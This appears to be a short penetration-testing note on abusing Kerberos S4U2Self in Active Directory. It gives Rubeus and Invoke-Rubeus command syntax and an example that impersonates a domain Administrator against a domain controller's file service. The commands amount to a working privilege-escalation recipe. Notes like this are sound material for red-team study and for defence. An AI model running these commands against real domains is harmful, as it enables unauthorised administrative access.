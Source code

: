 # S4U2Self

If we manage to obtain a Ticket Granting Ticket (TGT) for a system on the domain and then import that ticket into a logon session, we would not be able to access it. This is due to the fact the system accounts do not have remote access privileges over themselves. 

S4U2Self allows us to obtain a Ticket Granting Service (TGS) as a user who we know has administrative rights over the Domain Controller. For example, any Domain Administrator.

### 1) Rubeus

##### Syntax

    Rubeus.exe s4u /impersonateuser:[User-To-Impersonate] /self /altservice:[Service/FQDN] /user:[User] /ticket:[Base64 Ticket] /nowrap

##### In practice

    Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/dc01.security.local /user:dc01$ /ticket:iujhdfdsf== /nowrap

### 2) Invoke-Rubeus

    Invoke-Rubeus -Command "s4u /impersonateuser:[User-To-Impersonate] /self /altservice:[Service/FQDN] /user:[User] /ticket:[Base64 Ticket] /nowrap"
